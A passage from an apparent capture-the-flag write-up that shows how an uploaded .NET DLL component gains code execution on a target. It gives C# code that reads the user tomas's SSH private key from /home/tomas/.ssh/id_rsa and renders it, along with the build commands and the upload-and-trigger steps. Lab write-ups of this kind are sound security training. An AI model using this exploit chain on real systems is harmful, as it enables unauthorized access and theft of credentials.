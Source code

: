 Although the DLL file is invalid, but we know it’s uploaded successfully and ready to be executed.

Let’s go get the RCE attack now. There’re many different ways we can get a reverse shell, once we have the RCE primitive verified. As we know there’s a tomas user from the path traversing last part, we can try to leak its SSH private key with the following C# code:
```
using Microsoft.AspNetCore.Components;
using Microsoft.AspNetCore.Components.Rendering;
using System.IO;
namespace xpl
{
    public class Component : ComponentBase
    {
        protected override void BuildRenderTree(RenderTreeBuilder builder)
        {
            base.BuildRenderTree(builder);
           
            // Read private SSH key of user tomas
            string file = File.ReadAllText("/home/tomas/.ssh/id_rsa");
           
            builder.AddContent(0, file);
        }
    }
}
```

The namespace above must match the DLL filename for strict C# compilation policy. Then compile the file using dotnet on Linux system (for we will have a Linux executable DLL):
```
mkdir xpl_project && \
cd xpl_project && \
dotnet new classlib -n xpl
```

We will find the xpl.dll file under path /xpl_project/xpl/bin/release/net6.0.

Now use the same method we did when verifying the RCE primitive, upload the xpl.dll and trigger it via the “Choose module” option, we are able to print the id_rsa for user tomas:

![](images/Pasted%20image%2020240830103102.png)
